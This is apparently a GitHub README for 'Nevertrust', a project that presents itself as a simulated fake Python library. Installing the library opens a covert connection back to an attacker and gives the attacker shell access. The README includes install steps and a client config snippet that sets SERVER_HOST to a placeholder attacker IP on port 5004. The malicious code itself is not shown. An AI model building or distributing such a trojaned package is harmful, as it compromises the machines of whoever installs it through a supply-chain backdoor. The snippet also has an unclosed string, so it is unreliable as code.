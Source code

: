 ![image](https://github.com/ronch11/Nevertrust/assets/71279601/b1a00d58-04b7-4b78-9681-c45a40c7cf02)# Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

first you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
```
pip install socket tqdm 
```
![צילום מסך 2024-01-25 065805](https://github.com/ronch11/Nevertrust/assets/71279601/bd3e7152-2010-4b24-b127-b0101115d547)




